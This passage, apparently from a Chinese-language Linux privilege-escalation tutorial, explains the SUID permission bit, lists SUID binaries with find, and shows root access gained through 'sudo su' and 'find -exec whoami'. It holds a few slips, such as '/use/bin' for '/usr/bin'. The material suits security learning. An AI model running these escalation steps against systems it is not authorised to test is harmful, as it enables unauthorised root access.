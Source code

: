 ## 4. `suid`提权

### 4.1 漏洞原理

`suid`权限：赋予了`suid`权限的文件，在执行的时候会以**文件所有者**的身份来执行

**为指定文件赋予suid权限**

```bash
lonelyor@ubuntusrv2004:~$ touch exec
lonelyor@ubuntusrv2004:~$ chmod u+s,a+x exec
lonelyor@ubuntusrv2004:~$ ll exec
-rwsrwxr-x 1 lonelyor lonelyor 0 Nov  1 12:35 exec*
```

### 4.2 漏洞复现

使用`find`命令搜索拥有suid权限的文件

```bash
lonelyor@ubuntusrv2004:~$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/at
/usr/bin/gpasswd
/usr/bin/vim.basic
/usr/bin/umount
/usr/bin/find
/usr/bin/fusermount
/usr/bin/mount
/usr/bin/chfn
/usr/bin/pkexec
/usr/bin/su
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/newgrp
```

我们主要查看`/use/bin`下的可执行二进制文件，可以看到能利用的文件有：`/usr/bin/su、/use/bin/sudo、/use/bin/find`

**`sudo su`提权**

```bash
lonelyor@ubuntusrv2004:~$ sudo su
[sudo] password for lonelyor:
root@ubuntusrv2004:/home/lonelyor#
```

**`find`命令提权**

`-name`指定的文件名必须存在！

```bash
lonelyor@ubuntusrv2004:~$ find / -type f -name abc -exec "whoami" \;
root
```
